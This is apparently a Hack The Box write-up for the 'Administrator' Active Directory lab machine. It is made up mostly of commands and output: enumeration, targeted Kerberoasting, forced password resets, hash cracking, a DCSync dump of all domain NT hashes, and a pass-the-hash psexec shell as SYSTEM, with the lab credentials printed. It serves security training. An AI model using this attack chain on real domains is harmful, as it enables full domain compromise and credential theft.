




## Nmap Scan : 

We will start our journey by running an nmap scan on the provided ip address, and the result below show that ports like `88` for Kerberos and `389` for LDAP, which indicates that we are dealing with Domain Controller Active Directory Server. 

The results also shows that the domain we are up against is : `administrator.htb` 

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Administrator]
└─$ sudo nmap -sV -sC -O -Pn --disable-arp-ping -o scan-nmap 10.10.11.42                             
Nmap scan report for 10.10.11.42
Host is up (0.068s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-22 02:38:36Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/21%OT=21%CT=1%CU=36753%PV=Y%DS=2%DC=I%G=Y%TM=67B8
OS:D65A%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=104%CI=I%II=I%TS=A)SEQ(S
OS:P=102%GCD=1%ISR=105%CI=I%TS=A)SEQ(SP=102%GCD=1%ISR=105%CI=I%II=I%TS=A)OP
OS:S(O1=M53CNW8ST11%O2=M53CNW8ST11%O3=M53CNW8NNT11%O4=M53CNW8ST11%O5=M53CNW
OS:8ST11%O6=M53CST11)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)EC
OS:N(R=Y%DF=Y%T=80%W=FFFF%O=M53CNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%
OS:F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G
OS:%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-22T02:38:59
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m00s
```

Since the description of the box provided us with credentials `Olivia:ichliebedich` , assuming we have a foothold on the domain, we will use them to enumerate things like **SMB** shares and users which i dogged through each of them but nothing comes handy.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Administrator]
└─$ rpcclient -U "Olivia%ichliebedich" 10.10.11.42

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[olivia] rid:[0x454]
user:[michael] rid:[0x455]
user:[benjamin] rid:[0x456]
user:[emily] rid:[0x458]
user:[ethan] rid:[0x459]
user:[alexander] rid:[0xe11]
user:[emma] rid:[0xe12]
rpcclient $> 
```

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Administrator]
└─$ sudo netexec smb 10.10.11.42 -u olivia -p ichliebedich --shares
[sudo] password for ayoub: 
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\olivia:ichliebedich 
SMB         10.10.11.42     445    DC               [*] Enumerated shares
SMB         10.10.11.42     445    DC               Share           Permissions     Remark
SMB         10.10.11.42     445    DC               -----           -----------     ------
SMB         10.10.11.42     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.42     445    DC               C$                              Default share
SMB         10.10.11.42     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.42     445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.42     445    DC               SYSVOL          READ            Logon server share
```

I tried to access the `FTP` server, maybe there is something interesting there, but unfortunately we can't login.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Administrator]
└─$ ftp 10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:ayoub): olivia
331 Password required
Password: 
530 User cannot log in, home directory inaccessible.
ftp: Login failed
ftp> 
```

I gathered data using `bloodhound-python` for a better visibility, and see if there are some interesting Edges that we could take advantages of.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Administrator]
└─$ bloodhound-python -d administrator.htb -u Olivia -p 'ichliebedich' -ns 10.10.11.42  -c all
INFO: Found AD domain: administrator.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.administrator.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 11 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.administrator.htb
INFO: Done in 00M 14S
```

Using the `Transitive Object Control` built-in query under **OUTBOUND OBJECT CONTROL**, we can see that the user under our control `Olivia` have `GenericAll` ACL right on `Michael` user, and `Michael` have `ForceChangePassword` on `Benjamin` user.



Let's first synchronize the time with server because Kerberos authentication is very strict about time calibration. and then take over the `Michael` user by performing a targeted Kerberoasting.

```bash
┌──(ayoub㉿MyKali)-[/opt/targetedKerberoast]
└─$ sudo ntpdate 10.10.11.42                                                            
2025-03-29 00:14:36.325066 (+0100) +179778.282233 +/- 0.124255 10.10.11.42 s1 no-leap
CLOCK: time stepped by 179778.282233
CLOCK: time changed from 2025-03-26 to 2025-03-29
```

I tried to crack this hash using `hashcat` but it looks like it's not crackable.

```bash
┌──(ayoub㉿MyKali)-[/opt/targetedKerberoast]
└─$ sudo ./targetedKerberoast.py -v -d 'administrator.htb' -u 'Olivia' -p 'ichliebedich'
[sudo] password for ayoub: 
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (michael)
[+] Printing hash for (michael)
$krb5tgs$23$*michael$ADMINISTRATOR.HTB$administrator.htb/michael*$dab2d314b3a8bcacc9ddc48fcd143bfd$328623529607e8f69d1d61bd484ae60354cad35d2bc2a81062cb5960cb4fff619cdd9b16257d3d3b01fe8c41f99df969c9ed29e804d800f02d5ba5d01d89dbf517e0fb7ed279d91863f14727f859f90706e7d8cc180ad8da9f5ee78ada48abbca066f5771f997e2f29294ab770ed1b9ad70607996c4e5dbeaf8ff5bf6363b59a50ed6861b47ce01547814d1ac2a76c4d04594dd91d7a93fa96ca76aa3288c7a62ec6611f820f103b755cbd4e11dca3120ca259aa221e40d084a1af5167d02d6b0f3f445bda2fc8475ec87b8c702d54c385f293495f3daa42b4d6c9cd9c34f743ca071ab8eeeaeced1644db5abac4c892c6bc78dab76192b61514bc87b5e75cff952fbd156afc2575cdfc5286902912fa5e3d5fd9793db08d2106a6ce80fd757a3a7afcde927a265617181158864aaf9312ae0d67cd504a0f1c4c4f1f246faf4764d201950d3e9644fb6c7f7d5e3f94b4ac48897cc002cfe79b6b983b8f9deb00d1699086d327bde6e62e8072bcacb46b8b3585ba993943e785a77f5d7e4d5fa0d6814aea06df72c2ca7513c03b7def9ae1f34d7e85a3852b9a2f313b281ec3b7e321161762bc65fe984bfeaa1afbab58ed2f0eae88e9758ea8d6264c3b552edad6b453a1cd5c2b8e5322e4b40ea8f074b99a8a4569b7e5d551f9f6eb4889b2745486aae238386e0002d9a807c9d240d7bf1a47f8803cf17921c920b3de1c45ae2efbd10b606e698f1f5cadcff7334227fca9b460c555ac843a65ba820a912bcfcf00a4d5c971b7781296ef9953089a744481546cfd1910080ca3912980a50333fbc35d16b7849fa91fa510b5bfd37c5326c4517a386407ab0c16910a1ae20c8d0c5c448d3dfcb2208e70a5f2d13f4b5eeacb13c686bfbf6b600ad9ba0426857f8a7fbb139abdd08ef6484359c3618b3da18e691c54d24ffd2aebdc39e61a910fe9bad37e447b5786fece50938d09ad5f04ff54144a26eb4387ef2caae5f4ee98fadaac51f477df9132a44da4311abe9e2ea0794b669ae510da5e29ab96dcd7b5643fbb1a050a250084bea52d13eb0a25ea843912442bce2c232f50b213c86ec8722bd5822554262dbf68f9a5abf0765d077dd54a50ab906de055f8b65cddfd3864468d8ceb7c8a02665a84fdf669869c5b656a0a8985b0b135067b4d98e7b747d1353182be7b9f641292ef56579cc6884460819e7cf9abea0fead04264d4a0c606092f479fe660b13a6d1cc1eb2dc51b200a5997ec4187e99ab224c8b8e1a7ccd0aa99ddd6f0e92c3fdcd933e3b7a4cc2ac67c565d00cd44339ffc075addd62e6ba819b75a615e259fbb77ce4823cd1da3512c883cdbda170a0c835a0d43648f2c990d0a550c2b34f4bfa66428b5ec1284dce2814b050ea13d30f15e77b96eb529ed970a02f18c41226c6e26b0b23fc2bd2d7ea6a9b04f23d93db758c40ef540c9e0082c638b9fedbf0810746862c3a4a89718ab36d19f6ae1c134a84e6e779a8151f0e252201496674dc8e6f00026329656cfa21f34342c
[VERBOSE] SPN removed successfully for (michael)
```

So even though it's not recommended in real-life engagements, i changed the `michael`'s password using `bloodyAD`.

```bash
┌──(ayoub㉿MyKali)-[/opt/targetedKerberoast]
└─$ bloodyAD -u "olivia" -p "ichliebedich" -d "Administrator.htb" --host "10.10.11.42" set password "Michael" "P@ssw0rd123"
[+] Password changed successfully!
```

And then i will change `Benjamin`'s password as well since we have now `ForceChangePassword` over it.

```bash
┌──(ayoub㉿MyKali)-[/opt/targetedKerberoast]
└─$ bloodyAD -u "Michael" -p "P@ssw0rd123" -d "Administrator.htb" --host "10.10.11.42" set password "Benjamin" "P@ssw0rd123"
[+] Password changed successfully!
```

I tried to access the **ftp** server using `Michael`'s credentials but i couldn't, but we i did it using `Benjamin`'s i succeed.

```bash
┌──(ayoub㉿MyKali)-[/opt/targetedKerberoast]
└─$ ftp 10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:ayoub): benjamin
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||61937|)
125 Data connection already open; Transfer starting.
10-05-24  09:13AM                  952 Backup.psafe3
226 Transfer complete.
```

And as we can see above we got a `Backup.psafe3` file, which is a password database (in an encrypted format) file created by **Password Safe**, a popular open-source password management tool. 

We can't read this file directly and we need **a Master password** that the database is protected with, so we will use `pwsafe2john` to convert the file into a format that `John` can process.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Administrator]
└─$ pwsafe2john Backup.psafe3 > hash.txt
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050
```

Then we will crack this using `rockyou.txt` wordlist using `john`.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Administrator]
└─$ john --show hash.txt
Backu:tekieromucho

1 password hash cracked, 0 left
```

Used the password `tekieromucho` to open the database using `pwsafe`.



We found the passwords of 3 users as seen below. We can get each user's password by right clicking on the user and chose copy the password to the clipboard.




I looked into each of these users in `Bloodhound` and as a result the `Emily` have `CanPSRemote` on the Domain Controller, and most importantly it has `GenericWrite` on `Ethan` who have `DCSync` right on the Domain `Administrator.htb` which will lead us into domain compromise.




I used  `evil-winrm` to connect to the DC to get the `user.txt` flag.


Since we have `GenericWrite` on `Ethan` we will try to perform a targeted Kerberoasting first, and if the hash is not crackable we will be forced to change his password (not recommended in real-life!).

```bash
┌──(ayoub㉿MyKali)-[/opt/targetedKerberoast]
└─$ sudo ./targetedKerberoast.py -d "Administrator.htb" --dc-ip 10.10.11.42 -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" 
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$Administrator.htb/ethan*$7bed537141bd14d91ba9ec5be93a956b$7c4184b5c470bd1bfeef1794bf3a54b3b246d35ca9d23eb544292a5e3331f28955b3381c00d3edf7d00d65c8d481e7ce6370ba842ad7068d3ec6f7725f138ae2ef4144f5422f35c9a27e9bb03870f5697bcbace85e4a7514d578e611a1c69e25d723afa0c01060e7b5e05639189f749cf994a4937ac1a3ff45c987f3985973f5000bacb87ca84765f889d8a70d652cf9fc9a928611bb49c4334b8923559a906b1b4b6d43a3ce180fed0be3475daab72d296613feba6f87e15d593a5cf7f9c9d81e9f44279e727e2ced375cb5022d7c26f64d4f7c1af67fa95f297cb0bafa1048b219158df8a21c16b44fb407c57232f9cafaad3693798d78bcbb989f6404f4ee58349dbb4478e31efc3d8eb686af9054f30c77dae7f0c9103cc7ddc3ea09dd5f81c3c6b000142fb51371ce05959b7fa830eb3a8fa006d0afa2a193c7bfcfb4868ad6a1c7497dbf4dc499bd19fffbdf8840c3faa074b1fc6dbddc849050aeafe55a71cf40297489a6cfbcc9cca26f5004fdb46187466c97646b289b5c486c6a443992da66a881960547b29237ec18cef499889d327926674f2e8f8de54d232eaa6875bf8cead86fd54f1a254335e286bfd6a9345de418d392e324ec79148184f6f6fc41ccaf42c850409ffa2b6bce9c37c619e5037a4394ad35dee0e49121da74d981d84ae8e386be5ed407f1d5cafc22ab8f74ee1870c4a3f3dac65763fba369e61baa086ebe7e109a1ef1ac329d73770e1e76b02740e895e8cce3b6013aeb3ba5717fb6ddbf12af3e69043b0f7e9e0d1f56ba158e6e49a47d96021766a9687537eec9485076f52982ffb5dae667bee6b92b0f6d594cc47f984e9bac0002ab3ac4105ed1a2de8ea9e8107e98a7d8455e3ec206edf2e4d29756809f7f1453e93b9b3dfe5a5763c9f234f68da0265ec886c47f05a16e31735c41c37f9126954e30080d6a57076c3f53cbfe9646f1d849f8ad60aec35f2c3bb87850d501a3597f26b4ad5f7d06a32bfdcc719ca701e8e4ad61280dd41035e354719affc7a10a2f1145487e458c6c1b20da2a78db81093e2666b54fe20b96fb7c8e1c891faef2b4103151d5a7779caa0d53fbbb0d0dea94a18b0d780536cd7e27f3c02afbed8fcb3dd54b8d194e64f895095c0f7047a38ddfcfba1e09b973408e95c2b9d26cd7f870e1969408cc3d6a5ddecdc29290cffc80fe951784b5c3f85a61425df971f37e3d83e8a0d8280814a38ff3ec99ead94bd2c9711a1f74f866295af0ec2a217def2dcf325e0ed27e15a912b00f08a797511665736dd26472bb3925fa591f44a2a511105f44a9a89480ef84a740ff7ae5859fbe71dbc15c1b2da91703bde841a07bcbf2708d262d2df115131d80563b12527316315361585bf59bb61b5bf52bc610ff3675415c26cc6d4e0e43c7370997f6049467a36ac080a1c95cbaa91baa729d992e8712f308303f1f73d1221095c237bb88c41a320eeee5bd96a03aadf0d354ed486ca41e56d48d2ce13f610c4ddbf2bade912767f2f20b5e71016021def06c
```

We got Lucky and the hash got cracked successfully. `Ethan`'s password is `limpbizkit`

```Powershell
PS C:\Windows\hashcat-6.2.6> .\hashcat.exe -m 13100 C:\Users\acer\Desktop\hash.txt C:\Users\acer\Desktop\rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 2.1 ) - Platform #1 [Intel(R) Corporation]
=============================================================
* Device #1: Intel(R) UHD Graphics, 1536/3163 MB (790 MB allocatable), 24MCU
* Device #2: Intel(R) Core(TM) i7-10510U CPU @ 1.80GHz, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

.
.
<SNIP>
.
.

$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$Administrator.htb/ethan*$7bed537141bd14d91ba9ec5be93a956b$7c4184b5c470bd1bfeef1794bf3a54b3b246d35ca9d23eb544292a5e3331f28955b3381c00d3edf7d00d65c8d481e7ce6370ba842ad7068d3ec6f7725f138ae2ef4144f5422f35c9a27e9bb03870f5697bcbace85e4a7514d578e611a1c69e25d723afa0c01060e7b5e05639189f749cf994a4937ac1a3ff45c987f3985973f5000bacb87ca84765f889d8a70d652cf9fc9a928611bb49c4334b8923559a906b1b4b6d43a3ce180fed0be3475daab72d296613feba6f87e15d593a5cf7f9c9d81e9f44279e727e2ced375cb5022d7c26f64d4f7c1af67fa95f297cb0bafa1048b219158df8a21c16b44fb407c57232f9cafaad3693798d78bcbb989f6404f4ee58349dbb4478e31efc3d8eb686af9054f30c77dae7f0c9103cc7ddc3ea09dd5f81c3c6b000142fb51371ce05959b7fa830eb3a8fa006d0afa2a193c7bfcfb4868ad6a1c7497dbf4dc499bd19fffbdf8840c3faa074b1fc6dbddc849050aeafe55a71cf40297489a6cfbcc9cca26f5004fdb46187466c97646b289b5c486c6a443992da66a881960547b29237ec18cef499889d327926674f2e8f8de54d232eaa6875bf8cead86fd54f1a254335e286bfd6a9345de418d392e324ec79148184f6f6fc41ccaf42c850409ffa2b6bce9c37c619e5037a4394ad35dee0e49121da74d981d84ae8e386be5ed407f1d5cafc22ab8f74ee1870c4a3f3dac65763fba369e61baa086ebe7e109a1ef1ac329d73770e1e76b02740e895e8cce3b6013aeb3ba5717fb6ddbf12af3e69043b0f7e9e0d1f56ba158e6e49a47d96021766a9687537eec9485076f52982ffb5dae667bee6b92b0f6d594cc47f984e9bac0002ab3ac4105ed1a2de8ea9e8107e98a7d8455e3ec206edf2e4d29756809f7f1453e93b9b3dfe5a5763c9f234f68da0265ec886c47f05a16e31735c41c37f9126954e30080d6a57076c3f53cbfe9646f1d849f8ad60aec35f2c3bb87850d501a3597f26b4ad5f7d06a32bfdcc719ca701e8e4ad61280dd41035e354719affc7a10a2f1145487e458c6c1b20da2a78db81093e2666b54fe20b96fb7c8e1c891faef2b4103151d5a7779caa0d53fbbb0d0dea94a18b0d780536cd7e27f3c02afbed8fcb3dd54b8d194e64f895095c0f7047a38ddfcfba1e09b973408e95c2b9d26cd7f870e1969408cc3d6a5ddecdc29290cffc80fe951784b5c3f85a61425df971f37e3d83e8a0d8280814a38ff3ec99ead94bd2c9711a1f74f866295af0ec2a217def2dcf325e0ed27e15a912b00f08a797511665736dd26472bb3925fa591f44a2a511105f44a9a89480ef84a740ff7ae5859fbe71dbc15c1b2da91703bde841a07bcbf2708d262d2df115131d80563b12527316315361585bf59bb61b5bf52bc610ff3675415c26cc6d4e0e43c7370997f6049467a36ac080a1c95cbaa91baa729d992e8712f308303f1f73d1221095c237bb88c41a320eeee5bd96a03aadf0d354ed486ca41e56d48d2ce13f610c4ddbf2bade912767f2f20b5e71016021def06c:limpbizkit
```

Let's now `DCSync` the domain and dump all hashes of all users of the `administrator.htb` domain.

```bash
┌──(ayoub㉿MyKali)-[/opt/targetedKerberoast]
└─$ sudo secretsdump.py "Administrator.htb/ethan:limpbizkit"@"dc.Administrator.htb"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
administrator.htb\olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::
administrator.htb\michael:1109:aad3b435b51404eeaad3b435b51404ee:89551acff8895768e489bb3054af94fd:::
administrator.htb\benjamin:1110:aad3b435b51404eeaad3b435b51404ee:89551acff8895768e489bb3054af94fd:::
administrator.htb\emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::
administrator.htb\ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::
administrator.htb\alexander:3601:aad3b435b51404eeaad3b435b51404ee:cdc9e5f3b0631aa3600e0bfec00a0199:::
administrator.htb\emma:3602:aad3b435b51404eeaad3b435b51404ee:11ecd72c969a57c34c819b41b54455c9:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:cf411ddad4807b5b4a275d31caa1d4b3:::

.
.
.
<SNIP>
.
.

```

Finally, we will use the `psexec.py` to get a shell as the `administrator` using his NT hash that we got from above, and then get the `root.txt` flag.

```bash
┌──(ayoub㉿MyKali)-[/opt/targetedKerberoast]
└─$ psexec.py 'administrator.htb/Administrator@10.10.11.42' -hashes aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.11.42.....
[*] Found writable share ADMIN$
[*] Uploading file HpFTdtnz.exe
[*] Opening SVCManager on 10.10.11.42.....
[*] Creating service xqpP on 10.10.11.42.....
[*] Starting service xqpP.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 6131-DE70

 Directory of C:\Users\Administrator\Desktop

11/01/2024  02:47 PM    <DIR>          .
10/22/2024  11:46 AM    <DIR>          ..
03/28/2025  10:01 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   8,439,169,024 bytes free
```

